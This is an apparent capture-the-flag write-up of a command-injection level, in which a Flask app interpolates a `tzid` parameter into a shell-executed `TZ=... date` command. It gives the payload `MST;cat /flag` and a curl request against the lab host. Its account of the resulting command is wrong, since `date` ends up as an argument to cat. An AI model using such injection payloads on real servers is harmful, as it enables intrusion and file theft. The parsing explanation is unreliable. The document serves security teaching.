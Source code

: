 Here’s a writeup in `.md` format for this Command Injection level using the `TZ` environment variable:

````markdown
# Command Injection Level: Environment Variable Injection

## Challenge Overview

This level challenges us to perform command injection using an environment variable in a shell command. The server takes a `tzid` (timezone ID) parameter from the user and uses it to set the `TZ` environment variable before calling the `date` command.

### Vulnerable Code

```python
arg = flask.request.args.get("tzid", "MST") 
command = f"TZ={arg} date"
````

The command is constructed as:

```bash
TZ=user_input date
```

This command is then executed in a shell with `shell=True`, making it vulnerable to shell command injection if the `arg` is not properly sanitized.

## Understanding the Vulnerability

The key vulnerability lies in the fact that the `arg` is directly injected into an environment variable declaration in a **shell command**:

```bash
TZ=<user input> date
```

Because `shell=True` is used, we can inject shell metacharacters like `;`, `&&`, or `|` to terminate the `TZ` assignment and execute arbitrary commands.

## Exploitation Strategy

We can use the `;` character to terminate the `TZ` assignment and then run our own command such as `cat /flag`.

### Payload

```bash
MST;cat /flag
```

* `MST` is a valid timezone (used here to keep the command syntactically valid).
* `;` separates the `TZ` assignment from our injected command.
* `cat /flag` reads the flag file.

### URL-Encoded Version

To inject this via a browser or `curl`, we must URL-encode special characters:

* `;` → `%3B`
* space → `%20`

Final Payload:

```bash
curl "http://challenge.localhost/event?tzid=MST%3Bcat%20/flag"
```

## Final Exploit

```bash
curl "http://challenge.localhost/event?tzid=MST%3Bcat%20/flag"
```

This request results in the following command executed on the server:

```bash
TZ=MST;cat /flag date
```

In practice, due to how shell parsing works, the command effectively becomes:

```bash
TZ=MST
cat /flag
date
```

And both the flag and the date are displayed.

## Conclusion

By exploiting the shell's interpretation of the `TZ=<value>` format and injecting a command using `;`, we can execute arbitrary shell commands on the server.

---

### Key Takeaways

* Even **environment variable assignments** can be vectors for command injection if user input is inserted unsafely.
* Using `shell=True` amplifies risks; always avoid it if possible or properly sanitize inputs.
* Understanding how shell parses commands is crucial for both **finding** and **exploiting** injection points.
